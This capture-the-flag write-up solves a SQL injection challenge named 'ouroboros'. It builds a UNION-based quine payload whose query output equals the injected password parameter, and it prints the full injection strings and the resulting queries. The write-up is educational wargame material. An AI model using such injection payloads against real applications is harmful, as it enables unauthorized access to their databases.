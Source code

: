 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `CHAR(34)` (double quote `"` character) with `CHAR(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `CHAR(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34),CHAR(39)),CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34), CHAR(39)), CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',
CHAR(34), CHAR(39)), CHAR(36),
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
